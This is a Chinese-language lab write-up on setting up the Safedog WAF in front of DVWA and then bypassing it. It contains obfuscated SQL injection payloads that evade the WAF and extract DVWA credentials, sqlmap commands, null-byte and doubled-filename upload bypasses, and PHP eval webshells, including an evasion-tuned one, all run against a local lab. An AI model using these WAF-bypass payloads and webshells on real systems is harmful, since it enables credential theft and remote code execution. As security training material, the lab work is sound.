


# 一、实现 WAF 安装与配置。   
## 1. 环境
（1）phpstudy   
   
（2）安全狗   
   
## 2. WAF 的安装与配置
### 2.1 phpstudy 配置与启动
启动方式切换。   
   
   
由 `nginx` 切换为 `apache`。      
   
将`DVWA`文件复制到网站根目录。   
   
尝试访问，查看是否正常启动。   
   
此错误需要修改一下`DVWA`中的配置文件。   
   
   
修改 `php.ini`文件。   
   
重新访问。   
   
初始化。   
   
搭建成功。   
   
修改数据库字符集。   
   
   
   

php 站点启动成功。接下来安装安全狗。   
```url
 http://free.safedog.cn/
```
   
安装时，弹窗提示未扫描到apache服务时，需要进行手动配置。   
   
查看本地服务。    
   
寻找Apache服务，未发现。   
   
停止apache服务。   
    
进入`apache` bin目录，并复制路径。   
   
管理员运行控制台。   
   
进入上面复制的bin目录。   
   
运行指令。   
```shell
 .\httpd.exe -k install -n apache2.4.39
```
   
安装成功。本地服务中启动`apache`。   
   
再次安装安全狗。   
   
当全部信息扫描自动回填之后，证明服务扫描成功，点击确定即可。   
   
安装完成。运行安全狗，并测试防护是否生效。   
   
防护生效，至此 WAF 安装成功，虚拟机打快照。   
# 二、WAF 绕过 SQL 注入
## 1. 分别在无 WAF 和有 WAF 的情况下，利用 SQLMap 进行注入，提供注入结果截图。   
### 1.1 环境
```text
 http://192.168.228.150/DVWA/index.php  虚拟机有WAF
 http://127.0.0.1:8081/index.php  docker 无WAF
```   
### 1.2 使用 `burp` 抓包
   
复制到 waf.txt 中。   
### 1.3 确认文件中ip地址为waf，并使用`sqlmap`进行扫描。   
   
```shell
 sqlmap -r "/Users/wan/Desktop/waf.txt" --batch
```   
   
有防护情况下，扫描出了两种类型注入漏洞。   
### 1.4 抓取本地请求，使用 `sqlmap`进行扫描。   
   
```shell
 sqlmap -r "/Users/wan/Desktop/docker.txt" --batch
```   
   
无防护的情况下，扫描出了四种类型注入漏洞。
## 2. 在有 WAF 的情况下，手工注入出 DVWA 数据库中的 user 和 password，提供注入过程说明文档。   
### 2.1 判断是否存在注入漏洞。
```shell
 1' and 1=1 #
```   
请求被WAF拦截，初步推测是 and 关键字，尝试修改语句。   
```shell
 1'/**//*!11445and*/ 1=1 --
```   
成功查询出结果。 修改为 `1=2` 判断是否执行。   
```shell
 1'/**//*!11445and*/ 1=2 --
``` 
   
查询无结果，判断此处存在注入漏洞。
### 2.2 判断查询字段数量与显示位。   
```shell
 1'/**//*!11445order by*/ 2 --
```
   
被WAF拦截，初步判断是 order by 特征比较明显，尝试更换等价语句。   
```shell
 1'/**//*!11445group by*/ 2 -- 
```   
   
调整 group by 后的数字，猜查询的字段数量。   
   
由此报错可以知道，该功能点查询的字段数量为 2。 接下来查看显示位。   
```shell
 -1'/**//*!11445union*/ select 1,2 -- 
```   
   
被`WAF`拦截，尝试隐藏`union`和`select`特征。    
```text
 regexp 函数，是使用正则匹配。
```  
正则函数练习：   
（1）查找用户名是`a`开头的用户。   
```sql
 select * from users where user regexp "^a";
```
   
(2) 查找用户名中包含m的用户。   
```sql
 select * from users where user regexp "m";
```   
   
(3) %23(#)和%0A（换行）   
```sql
 select * from users where user_id = 1 regexp '%0A%23';
```   
查询无数据。   
   
根据上面的函数，拼接到语句中，弱化语句的攻击特征。
```shell
 -1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ 1,2 --
```   
得到具体显示位信息。   
   
查询当前数据库信息。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ /*!database()*/,2 -- 
```   
   
被拦截，可以认为 `database`被拦截，更换其他方式。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145schema_name)*/,2 /*!%23%0A/*!from *//*!11145--+/*%0AinforMation_schEma*//*!11145.sCheMata*/ --+
```   
成功获得所有数据库。   
   
获取数据库中的表。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145table_name)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0AinforMation_schEma*//*!11145.tables*/ where %0Atable_schema='dvwa'
```   
成功获得表名。   
   
获取表中的字段名。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145column_name)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0AinforMation_schEma*//*!11145.columns*/ where %0Atable_name='users'--+
```   
成功获得字段名。   
   
获取登录名和密码。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ concat(/*!11145user,0x7e,password)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0Ausers*//*!11145*/--+&Submit=Submit#
```   
成功获取到登录名和密码数据。   

# 三、WAF 绕过文件上传：判断安全狗对于上传文件的检测规则，是基于文件后缀名、文件类型、文件内容中的哪项来进行匹配拦截，给出推导过程。
## 1. 访问页面
 
## 2. 上传一句话木马，看看网站的防护情况。   
   
被网站防护产品拦截。   

## 3. 开启burp
   
## 4. 进行正常的文件上传   
文件名`1.txt`，文件内容`123`。上传后使用`burp`抓包，查看请求分析拦截的点。   
   
通过请求包分析可以得出，在文件上传过程中，可能判断拦截点有：   
（1）filename：文件名后缀；   
（2）Content-Type：文件类型；   
（3）文件的内容；   
放过请求。   
   
普通文件上传成功。   
## 5. 上传一句话木马，同时抓取请求发送至`repeater`模块，不断变更请求体后发送，查看具体响应来判断是否成功。
### 5.1 抓取一句话木马请求   
   
### 5.2 仅修改文件名后缀名
`post_a.php` -> `post_a.txt` 只为验证是否为文件名后缀。   
   
上传成功，初步判断为基于文件后缀名进行的拦截判断。继续尝试其他位置。   
### 5.3 仅修改文件类型
`text/php` -> `image/png`。   
   
未成功。
### 5.4 仅修改文件内容
`<?php eval(@$_POST['a']);?>` -> `123`。   
   
未成功。   
### 5.5 结论
根据上述实现，可以得出此站点为防护的拦截策略为文件后缀名判断。   
### 5.6 尝试后缀名截断绕过
首先修改文件后缀名：`post_a.php` -> `post_a.php;.txt`,此处 `;` 号的意义为占位。   
    
打开16进制，寻找占位符 `;` 的位置。   
   
将此处的 `3b` 修改为 `00`。   
   
返回查看请求包。   
   
其实这里多了一个看不到的截断符。重新发起请求。   
   
上传成功，以 `post_a.php` 的形式保存到了服务器。访问该文件。   
   
被拦截。应该是一句话木马的特征比较明显，尝试编写免杀的一句话木马。   
```php
 <?php
    $name = $_GET[1];
    $name = substr($name,0);
    eval("echo 12;". $name."echo 5;")
 ?>
```   
重新上传。   
   
此次使用双写`filename`的方式进行绕过上传。   
   
上传成功。访问该文件。   
   
成功访问，尝试输入指令。   
```url
 http://192.168.228.150/DVWA/hackable/uploads/ms_get_name.php?1=phpinfo();
```

